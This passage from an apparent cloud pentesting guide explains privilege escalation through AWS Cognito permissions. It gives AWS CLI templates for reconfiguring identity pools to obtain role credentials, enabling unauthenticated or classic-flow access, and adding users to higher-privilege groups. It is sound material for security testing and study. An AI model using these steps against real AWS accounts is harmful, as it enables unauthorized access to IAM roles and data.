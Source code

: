 ```bash
# This example is using a Cognito User Pool as identity provider
## but you could use any other identity provider
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    [--allow-unauthenticated-identities | --no-allow-unauthenticated-identities] \
    --cognito-identity-providers ProviderName=user-pool-id,ClientId=client-id,ServerSideTokenCheck=false

# Now you need to login to the User Pool you have configured
## after having the id token of the login continue with the following commands:

# In this step you should have already an ID Token
aws cognito-identity get-id \
    --identity-pool-id <id_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from thr previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

It's also possible to **abuse this permission to allow basic auth**:

```bash
aws cognito-identity update-identity-pool \
    --identity-pool-id <value> \
    --identity-pool-name <value> \
    --allow-unauthenticated-identities
    --allow-classic-flow
```

**Potential Impact**: Compromise the configured authenticated IAM role inside the identity pool

### `cognito-idp:AdminAddUserToGroup`

This permission allows to **add a Cognito user to a Cognito group**, therefore an attacker could abuse this permission to add an user under his control to other groups with **better** privileges or **different IAM roles**:

```bash
aws cognito-idp admin-add-user-to-group \
    --user-pool-id <value> \
    --username <value> \
    --group-name <value>
```

**Potential Impact:** Privesc to other Cognito groups and IAM roles attached to User Pool Groups.

### (`cognito-idp:CreateGroup` | `cognito-idp:UpdateGroup`), `iam:PassRole`

An attacker with these permissions could **create/update groups** with **every IAM role that can be used by a compromised Cognito Identity Provider** and make a compromised user part of the group, accessing all those roles:
